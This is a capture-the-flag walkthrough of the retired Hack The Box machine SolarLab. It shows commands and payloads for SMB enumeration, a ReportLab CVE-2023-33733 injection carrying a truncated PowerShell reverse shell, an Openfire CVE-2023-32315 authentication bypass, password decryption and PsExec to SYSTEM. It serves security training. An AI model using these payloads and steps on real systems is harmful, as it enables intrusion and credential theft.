






# Hack The Box - SolarLab



Hello guys, I'll be walking you through the attack vectors and findings for the retired box **SolarLab**. This machine starts with a simple web and SMB enumeration path, then moves into a vulnerable report generation service to gain a foothold as `blake`, followed by an Openfire compromise that leads to `Administrator` access and finally `NT AUTHORITY\SYSTEM`.

## Reconnaissance

I began with a full scan of the target to see what was exposed.

```bash
nmap -sS -A -p- -o nmap 10.10.11.x
```

The scan showed HTTP, SMB, and another HTTP service on a high port:

```text
80/tcp   open  http          nginx 1.24.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
6791/tcp open  http          nginx 1.24.0
```

The two HTTP services exposed different hostnames, so I added both `solarlab.htb` and `report.solarlab.htb` to my hosts file.

## Web Enumeration

Visiting port 80 showed a landing page for **SolarLab IM** with a countdown timer. Lower on the page were three staff members:

- Alexander Knight, CEO.
- Claudia Springer, Designer.
- Blake Byte, Developer.



The contact form did not appear functional, so I moved to the report service on port 6791.



That site presented a login form for **ReportHub**. The error messages leaked whether a username existed, so I tested the staff names and found the naming format used first name plus the first letter of the last name. That gave me valid usernames like `blakeb`.

## SMB Enumeration

Even with valid usernames, I still needed a password for SMB. Anonymous access worked, so I listed the shares and found a `Documents` share containing Word documents and an Excel file.

```bash
impacket-smbclient guest@solarlab.htb
```

Inside the share I found:

```text
details-file.xlsx
old_leave_request_form.docx
```



I downloaded the files and checked the spreadsheet. It contained personal information, including email addresses, passwords, and security questions for the staff members.

One of the recovered passwords worked for the ReportHub login:

```text
blakeb : ThisCanB3typedeasily1@
```

## Initial Access

After logging in as `blakeb`, I could create several request types, including leave, training, work from home, and travel approvals.



I generated a travel approval request with dummy data, which produced a PDF file. Inspecting the metadata showed it was generated with **reportlab**, which pointed to [CVE-2023-33733] as a possible exploit path.

The PoC https://github.com/c53elyas/CVE-2023-33733 used a payload inside the travel request content, so I modified it to include a base64-encoded PowerShell reverse shell. Because the justification field had a server-side size limit, I had to inject the payload carefully through BurpSuite.

Once the request was submitted, I received a shell as `blake` and captured the first flag.

### Request Payload

```http
POST /travelApprovalForm HTTP/1.1
Host: report.solarlab.htb:6791
Content-Type: multipart/form-data; boundary=---------------------------427543924628485714141569196929
```

```text
Content-Disposition: form-data; name="travel_request"

<p><para><font color="[[getattr(pow,Word('__globals__'))['os'].system('powershell -e ...') ... ]]"></font></para></p>
```

## Privilege Escalation

### Openfire Discovery

After landing on the system, I enumerated open ports and found port 9090 running locally. The page title identified it as **Openfire**, and the footer showed version `4.7.4`.



I forwarded access to that port through a SOCKS tunnel so I could browse it from my host.

```bash
chisel server --port 1337 --reverse --socks5 -v
chisel.exe client 10.10.10.10:1337 R:socks
```

The login page did not accept the obvious credentials, so I looked for an authentication bypass. That led me to [CVE-2023-32315], a path traversal flaw in the setup routine that can be used to create a new admin user.

Using the public PoC https://github.com/miko550/CVE-2023-32315 through proxychains, I created a new Openfire admin account.

```bash
proxychains -q python3 CVE-2023-32315.py -t http://127.0.0.1:9090
```

After that, I uploaded the malicious plugin from the PoC, used the hardcoded password `123`, and accessed the management tool. From there I was able to execute system commands and get a second shell as `openfire`.

### Administrator Credentials

Openfire stores useful data in:

```text
C:\Program Files\Openfire\embedded-db\openfire.script
```

Inside that file I found the encrypted administrator password and the Blowfish CBC key needed to decrypt it.

```text
INSERT INTO OFUSER VALUES(... encrypted password ...)
INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)
```

I compiled and ran the decryption tool, which returned the plaintext password:

```text
ThisPasswordShouldDo!@
```

Since that password was usable elsewhere, I tested it against SMB.

## System Access

The target had SMB open, so I used PsExec from Impacket to authenticate as `Administrator` and execute a command shell.

```bash
impacket-psexec 'Administrator:ThisPasswordShouldDo!@'@solarlab.htb
```

That gave me `NT AUTHORITY\SYSTEM`, which let me collect the final flag.

## Attack Path

- **Scan the host** — identify HTTP, SMB, and the alternate report service.
- **Enumerate users** — derive valid usernames from the staff list and ReportHub error messages.
- **Access SMB anonymously** — discover the `Documents` share.
- **Extract secrets** — recover passwords and sensitive information from `details-file.xlsx`.
- **Log in to ReportHub** — authenticate as `blakeb`.
- **Exploit ReportLab** — abuse [CVE-2023-33733] with a reverse shell payload.
- **Gain a foothold** — obtain a shell as `blake`.
- **Find Openfire** — discover the local service on port 9090.
- **Bypass Openfire auth** — exploit [CVE-2023-32315] to create an admin user.
- **Run commands as openfire** — use the management tool and plugin upload path.
- **Extract Openfire secrets** — decrypt the stored admin password from the embedded database.
- **Reuse credentials** — authenticate through SMB with the recovered password.
- **Escalate to SYSTEM** — use PsExec to get a SYSTEM shell and read the final flag.
